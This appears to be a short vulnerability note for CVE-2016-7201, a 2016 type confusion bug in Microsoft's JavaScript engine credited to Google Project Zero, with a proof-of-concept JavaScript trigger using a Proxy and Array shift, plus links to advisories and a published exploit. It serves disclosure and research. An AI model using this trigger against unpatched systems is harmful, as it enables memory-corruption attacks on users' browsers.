 # CVE-2016-7201

- Report: Sep 2016
- Fix: Nov 2016
- Credit: Natalie Silvanovich, Google Project Zero

## PoC

```javascript
var a = new Array(0x11111111, 0x22222222, 0x33333333, 0x44444444, 0x12121212, 0x23232323, 0x12345670, 0x7777);

var handler = {
    getPrototypeOf: function(target, name){
	return a;
    }
};

var p = new Proxy([], handler);
var b = [{}, [], "natalie"];

b.__proto__ = p;
b.length = 4;

a.shift.call(b);
// b[2] is type confused
```

## Refernece

- [Microsoft](https://technet.microsoft.com/library/security/ms16-129)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=945)
- [Exploit by Theroi](https://github.com/theori-io/chakra-2016-11)

